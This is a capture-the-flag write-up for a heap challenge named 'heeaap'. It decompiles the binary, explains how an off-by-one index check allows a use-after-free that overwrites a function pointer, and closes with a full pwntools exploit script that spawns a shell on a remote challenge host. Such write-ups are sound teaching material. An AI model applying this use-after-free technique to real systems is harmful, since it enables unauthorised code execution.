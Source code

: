 ```yaml
---
title: heeaap
type: writeup
date: 2024-04-07T14:23:28+03:00
description: Writeup for heeaap [Unbreakable 2024]
author: sunbather
tags:
- pwn
- heap
draft: false
---
```

___

## Challenge Description

Since strground was "too hard"...

## Intuition

We get a classic, easy heap challenge, with a UAF bug. Two different kind of structures are allocated on the heap, one of 64 bytes and one of 72. From each of them, we control the first 52, respectively 60 bytes. At the end of each, a function pointer for a print function is being assigned. We also have a win function in the binary, that simply calls ``system("/bin/sh")``. Cleaned up main function below:

```c
void main(void)
{
  long lVar1;
  ctf_struct *ptr;
  desc_struct *pdVar2;
  long in_FS_OFFSET;
  undefined4 menu_opt;
  int print_idx;
  long details [7];
  uint idx;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  do {
    if ((3 < (int)i) || (3 < (int)j)) {
      if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
      }
      return;
    }
    puts("--------------------------");
    puts("1. Create new ctf");
    puts("2. Create ctf description");
    puts("3. Delete ctf");
    puts("4. Delete description");
    puts("5. Print ctf && description");
    puts("--------------------------");
    fwrite("Choose: ",1,8,stdout);
    __isoc99_scanf("%d",&menu_opt);
    switch(menu_opt) {
    default:
      puts("Not a choice");
      exit(0);
    case 1:
      if ((int)j < (int)i) {
        puts("You need to create a description for every ctf!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = details[6] & 0xffffffff00000000;
      fwrite("Enter ctf details: ",1,0x13,stdout);
      read(0,details,0x34);
      idx = i;
      ptr = (ctf_struct *)malloc(0x40);
      ctfs[(int)idx] = ptr;
      ptr = ctfs[(int)i];
      *(long *)ptr->description = details[0];
      *(long *)(ptr->description + 8) = details[1];
      *(long *)(ptr->description + 0x10) = details[2];
      *(long *)(ptr->description + 0x18) = details[3];
      *(long *)(ptr->description + 0x20) = details[4];
      *(long *)(ptr->description + 0x28) = details[5];
      *(undefined4 *)(ptr->description + 0x30) = (undefined4)details[6];
      ctfs[(int)i]->print_func = print_current_ctf;
      printf("\nCtf created at index: %d\n",(ulong)i);
      i = i + 1;
      break;
    case 2:
      if ((int)i < (int)j) {
        puts("You need to create a ctf for every description!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = 0;
      fwrite("Enter ctf description: ",1,0x17,stdout);
      read(0,details,0x3c);
      idx = j;
      pdVar2 = (desc_struct *)malloc(0x48);
      descriptions[(int)idx] = pdVar2;
      pdVar2 = descriptions[(int)j];
      *(long *)pdVar2->details = details[0];
      *(long *)(pdVar2->details + 8) = details[1];
      *(long *)(pdVar2->details + 0x10) = details[2];
      *(long *)(pdVar2->details + 0x18) = details[3];
      *(long *)(pdVar2->details + 0x20) = details[4];
      *(long *)(pdVar2->details + 0x28) = details[5];
      *(long *)(pdVar2->details + 0x30) = details[6];
      *(undefined4 *)(pdVar2->details + 0x38) = 0;
      descriptions[(int)j]->print_desc = print_ctf_description;
      printf("\nDescription created at index: %d\n",(ulong)j);
      j = j + 1;
      break;
    case 3:
      if (i == 0) {
        puts("No ctfs created yet.");
        exit(0);
      }
      i = i - 1;
      free(ctfs[(int)i]);
      puts("\nDeleted ctf.\n");
      break;
    case 4:
      if (j == 0) {
        puts("No descriptions created yet.");
        exit(0);
      }
      j = j - 1;
      free(descriptions[(int)j]);
      puts("\nDeleted description.\n");
      break;
    case 5:
      if ((i == 0) || (j == 0)) {
        puts("No ctf or description.");
        exit(0);
      }
      fwrite("Select index: ",1,0xe,stdout);
      __isoc99_scanf("%d",&print_idx);
      if ((((int)i < print_idx) || ((int)j < print_idx)) || (print_idx < 0)) {
        puts("Not allowed");
        exit(0);
      }
      (*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);
      (*(code *)descriptions[print_idx]->print_desc)(descriptions[print_idx]);
    }
  } while( true );
```

We created the structures in Ghidra struct editor so the decompilation is easier to read. The essential bug is at case 5, when we use the print functions stored in the function pointers. Notice how case 5 checks if the index we are requesting to print is bigger (strictly) than the current i, which should be the last position where a CTF + description combo is found. However, this is not actually true, ``i`` and ``j`` are the indices of the next free spots. Which means, by requesting exactly ``i`` or ``j`` we can print CTFs or descriptions that do not actually exist in our array.

In our case, if we free a CTF or a description and then allocate another one, the glibc heap allocator will reuse the one we've just freed. That, combined with bad input validation on case 5, will let us execute a Use-After-Free. We can, in theory, allocate the smaller structure (CTF), free it and then allocate the bigger structure. Since we control 60 bytes of the bigger structure, we can overwrite 8 bytes at the end of the first structure. Sadly, 4 bytes of the overwritten ones are structure padding, but we can still overwrite 4 bytes least significant bytes of the function pointer for the smaller structure. Which is great, because in little endian with no PIE, that’s all we need to overwrite it.

So the plan is:
1. Allocate dummy CTF & description (to bypass the print check: ``if ((i == 0) || (j == 0))`` )
2. Allocate CTF
3. Free CTF
4. Allocate description for which the last 4 bytes are the address of the win function
5. Print CTF with index 1

When we hit the last step, the line ``(*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);`` will call the overwritten win function, giving us a shell.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./heap")
target = remote("35.234.88.19", 32668)
win_addr = 0x004012db

def create_ctf(details):
    target.sendline(b"1")
    target.send(details)

def create_desc(description):
    target.sendline(b"2")
    target.send(description)

def delete_ctf():
    target.sendline(b"3")

def delete_desc():
    target.sendline(b"4")

def print_ctf(index):
    target.sendline(b"5")
    target.sendline(str(index).encode())

create_ctf(b".hidden" + b"a" * 45)
create_desc(b"d" * 60)

create_ctf(b"a" * 52)
delete_ctf()
create_desc(b"d" * 56 + p32(win_addr))

print_ctf(1)
target.interactive()
```
